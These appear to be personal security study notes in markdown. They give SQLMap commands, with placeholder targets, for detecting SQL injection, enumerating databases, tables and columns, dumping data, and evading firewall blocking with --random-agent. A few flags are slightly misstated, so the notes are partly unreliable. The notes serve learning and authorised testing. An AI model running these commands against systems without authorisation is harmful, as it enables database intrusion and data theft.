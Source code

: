 ```yaml
---
tags:
- security
- sqli
- web
title: Fully Automated Tool (SQLMap)
---
```


````bash
sqlmap -hh # Extended Help
````

1. <u>Check site for Vulnerability</u>

````bash
sqlmap -u <URL> --level=5 --risk=3
sqlmap -r <request-file> --string="<text-if-query-true>" --level=5 --risk=3
sqlmap -u <URL>?id=5
````

Sometimes this might not work in that case we need to specify the fields that need to be tested
Burp Suite - Repeater - Request (Replace the payload values with `*`  
e.g.  `username=*&password=*` : Save as file

````bash
sqlmap -r <request-file>
````

2. <u>Retrieve DB Names</u>

````bash
sqlmap -r <request-file> --dbs
sqlmap -u <URL> --dbs
sqlmap -u <URL> --current-dbs # Return DB that is currently used
````

3. <u>All Tables from DB</u>

````bash
sqlmap -u <URL> -D <db-name> --tables
````

4. <u>Columns from Table</u>

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> --columns
````

5. <u>View Data from Column</u>

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> -C <column-name>
````

**<u>Flags</u>**:  
-u URL : Target URL  
--level=5 : Through Scan - Default : 1  
--risk=3 : Risk Level - Default : 1  
-r filename : Provide the request file  
--random-agent : Request blocked by firewall  
--dump : Exploit Vulnerability Save result to file

--string "string" : String present on result page on successful query (Required from Blind Injection)  
--dbms=dbms-name : Pass Database Type (MySQL, PostgreSQL, etc.)

--technique : BEUSTQ  
B: Boolean-based blind  
E: Error-based  
U: Union query-based  
S: Stacked queries  
T: Time-based blind  
Q: Inline queries